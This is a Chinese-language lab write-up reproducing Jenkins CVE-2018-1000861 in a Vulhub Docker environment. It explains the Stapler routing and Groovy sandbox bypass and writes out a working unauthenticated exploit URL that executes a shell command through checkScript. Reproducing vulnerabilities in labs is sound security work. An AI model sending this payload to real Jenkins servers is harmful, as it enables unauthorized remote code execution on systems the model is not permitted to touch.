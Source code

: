 # Jenkins远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

Vulhub执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

![image-20220224163429468](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241634597.png)

## 漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![image-20220224163651128](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241636205.png)

`/tmp/success`已成功创建：

![image-20220224163720283](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241637353.png)
